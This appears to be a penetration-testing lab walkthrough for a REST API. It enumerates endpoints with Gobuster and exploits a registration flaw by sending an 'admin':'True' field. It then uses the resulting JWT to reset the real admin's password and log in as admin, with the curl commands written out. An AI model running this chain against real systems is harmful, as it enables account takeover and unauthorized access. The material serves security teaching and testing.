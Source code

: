### 🔍 1. Understanding the Target

- **Web App**: Closed-source, internally developed with REST APIs.
- **REST API**: Common for handling authentication and data ops.
- **Black-box Testing**: No documentation provided – must discover APIs manually.

---
### 🚀 2. Enumerating API Endpoints

- Use **Gobuster** to brute-force API paths:
    ```bash
    gobuster dir -u http://10.10.20.45:8080 -w /usr/share/wordlists/dirb/big.txt -p pattern
    ```
- **Pattern File** Example (`pattern`):
    ```
    {GOBUSTER}/v1
    {GOBUSTER}/v2
    ```
- Common path pattern: `/api_section/v1`

---

### 📌 3. Discovered Endpoints

- `/articles/v1`, `/accounts/v1` – status 200 = valid APIs
- `/dashboard` endpoint revealed **API documentation**

---

### 🧠 4. Gathering Sensitive Data

- Inspect endpoint with `curl`:
    ```bash
    curl -i http://10.10.20.45:8080/accounts/v1
    ```
    
- **Found users**: Includes an `admin` account.

---

### 🔎 5. Deep Endpoint Discovery

- Brute-force subpaths for admin:
    ```bash
    gobuster dir -u http://10.10.20.45:8080/accounts/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
    ```
    
- Found: `/password`, `/email` (Method Not Allowed = valid endpoints)

---

### 🛂 6. Exploring Login Functionality

- Check `/login`:
    ```bash
    curl -i http://10.10.20.45:8080/accounts/v1/login
    ```
    
- Status message: “User not found” → endpoint exists

---

### 🔐 7. Attempt Login via POST

- POST login:
    ```bash
    curl -d '{"password":"test123","username":"admin"}' \
         -H 'Content-Type: application/json' \
         http://10.10.20.45:8080/accounts/v1/login
    ```
    
- Result: Auth fails = parameters are valid
- 
---

### 🆕 8. Try to Register as Admin

- Attempt user registration:
    ```bash
    curl -d '{"password":"test123","username":"pentest","email":"evil@hacker.net","admin":"True"}' \
         -H 'Content-Type: application/json' \
         http://10.10.20.45:8080/accounts/v1/register
    ```
    
- ✅ Registered as **admin** (privilege escalation)

---

### 🔑 9. Login With New Admin

```bash
curl -d '{"password":"test123","username":"pentest"}' \
     -H 'Content-Type: application/json' \
     http://10.10.20.45:8080/accounts/v1/login
```

- 🎉 Returned a valid JWT token

---

### 🔄 10. Change Real Admin Password

- Attempt **PUT** request using the JWT:
    ```bash
    curl -X 'PUT' \
      'http://10.10.20.45:8080/accounts/v1/admin/password' \
      -H 'Content-Type: application/json' \
      -H 'Authorization: OAuth <JWT_TOKEN>' \
      -d '{"password": "owned123"}'
    ```

---

### ✅ 11. Login as Real Admin

```bash
curl -d '{"password":"owned123","username":"admin"}' \
     -H 'Content-Type: application/json' \
     http://10.10.20.45:8080/accounts/v1/login
```

- ✅ Successfully logged in as original **admin**

---

### 🧰 12. Automating with Burp Suite

- Use `--proxy` to capture curl traffic in Burp:
    ```bash
    curl ... --proxy 127.0.0.1:8080
    ```
- From **Repeater**, replay/modify requests.
- **Site Map** helps organize and replay discovered endpoints.

---

## 📚 Key Takeaways

- REST APIs often leak valuable data when misconfigured.
- 405 = exists but wrong method (try POST, PUT, PATCH).
- Privilege escalation via registration is a common dev mistake.
- Burp Suite is great for API analysis, automation, and fuzzing.

---